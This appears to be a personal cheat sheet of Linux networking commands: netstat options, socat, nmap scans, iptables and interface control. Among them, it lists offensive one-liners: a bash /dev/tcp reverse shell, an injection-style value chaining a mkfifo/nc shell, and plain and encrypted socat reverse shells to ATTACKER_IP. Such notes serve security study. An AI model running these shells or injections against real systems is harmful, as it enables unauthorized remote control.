 # Network tool

* Check network throughput on different interfaces
```bash
cat /proc/net/dev
```

## `netstat`

* `-r` Show current system's routing table
```bash
netstat -r
```

* `-a` Show all connection, `-t` for TCP connection, `-u` for UDP connection
```bash
netstat -atu
```

* `-l` Show only listening connection.
```bash
netstat -lt
```

* `-p` Show the process and PID that is running to handle the network connection
```bash
netstat -p
```

* `-n` Show the numeric port number instead of trying to dynamically determine the symbolic host
```bash
netstat -n
```
# Network commands
* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get reverse shell with command execution
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* TCP scanning with `nc`
```bash
nc -nvv -w 1 -z 127.0.0.1 1000-2000
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* `-sV` for detecting version, `-p-` for all ports, `-T4` for fast execution time.
```
nmap -p- -T4 -sV IP_ADDR
```

* `socat`, SOcket CAT, `TCP4` specifies the protocol, `-` is used to transfer data between `stdio` and remote host, allowing keyboard interaction with the shell
```bash
socat - TCP4:127.0.0.1:8080
```

* Bind a port to listen using `socat`, `STDOUT` redirects output to terminal
```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

* File transfer with `socat`, `fork` will fork a child process whenever a client connects to the server, and will run indefinitely until killed. `file` is the option to specify which file to transfer. `create` will create the file if it doesn't exist.
```bash
server:
socat TCP4-LISTEN:8888,fork file:secret.txt

client:
socat TCP4:localhost:8888 file:receive.txt,create
```

* Reverse shell with `socat`, `-d -d` for more verbose output, `EXEC` is the option to run a target executable after client connects to it.
```bash
attacker:
socat -d -d TCP4-LISTEN:1337 STDOUT

victim:
socat TCP4:ATTACKER_IP:1337 EXEC:/bin/bash
```

* Encrypted reverse shell with `socat`. After generating a self-signed cert with `openssl`, we will use `cert` option to indicate our desire certificate to use for encryption, and `verify=0` to disable SSL certificate verification since it is a self-signed cert. 
```bash
attacker:
socat OPENSSL:VICTIM_IP:1337,verify=0

victim:
socat OPENSSL-LISTEN:1337 cert=server.pem, verify=0, fork EXEC:/bin/bash
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

* `ss`, socket statistic, `-a` shows all listening and non-listening sockets, `-n` displays the numeric IP, and does not resolve service name, `-t` specifies TCP sockets, `-l` displays only listening sockets, `-p` shows the process that is using the socket


